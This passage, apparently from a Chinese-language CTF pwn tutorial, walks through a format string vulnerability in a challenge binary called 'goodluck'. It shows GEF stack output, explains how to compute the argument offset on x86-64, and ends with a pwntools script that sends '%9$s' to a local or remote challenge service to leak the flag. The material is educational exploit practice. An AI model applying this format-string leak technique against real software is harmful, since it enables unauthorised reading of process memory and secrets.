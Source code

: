 ```shell
   0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8
   0x7ffff7a627fe <fprintf+142>    ret    
   0x7ffff7a627ff                  nop    
 → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8
   0x7ffff7a62807 <printf+7>       test   al, al
   0x7ffff7a62809 <printf+9>       mov    QWORD PTR [rsp+0x28], rsi
   0x7ffff7a6280e <printf+14>      mov    QWORD PTR [rsp+0x30], rdx
───────────────────────────────────────────────────────────────────────[ stack ]────
['0x7fffffffdb08', 'l8']
8
0x00007fffffffdb08│+0x00: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8	 ← $rsp
0x00007fffffffdb10│+0x08: 0x0000000031000001
0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)
0x00007fffffffdb20│+0x18: 0x0000000000602010  →  "You answered:\ng"
0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"
0x00007fffffffdb30│+0x28: "flag{11111111111111111"
0x00007fffffffdb38│+0x30: "11111111111111"
0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)
──────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")
[#1] 0x400890 → Name: main()
─────────────────────────────────────────────────────────────────────────────────────────────────


```

可以看到flag对应的栈上的偏移为5，除去对应的第一行为返回地址外，其偏移为4。此外，由于这是一个64位程序，所以前6个参数存在在对应的寄存器中，fmt字符串存储在RDI寄存器中，所以fmt字符串对应的地址的偏移为10。而fmt字符串中%order$s对应的order为fmt字符串后面的参数的顺序，所以我们只需要输入%9\$s即可得到flag的内容。当然，我们还有更简单的方法利用https://github.com/scwuaptx/Pwngdb中的fmtarg来判断某个参数的偏移。

```shell
gef➤  fmtarg 0x00007fffffffdb28
The index of format argument : 10
```

需要注意的是我们必须break在printf处。

#### 利用程序

```python
from pwn import *
from LibcSearcher import *
goodluck = ELF('./goodluck')
if args['REMOTE']:
    sh = remote('pwn.sniperoj.cn', 30017)
else:
    sh = process('./goodluck')
payload = "%9$s"
print payload
##gdb.attach(sh)
sh.sendline(payload)
print sh.recv()
sh.interactive()
```
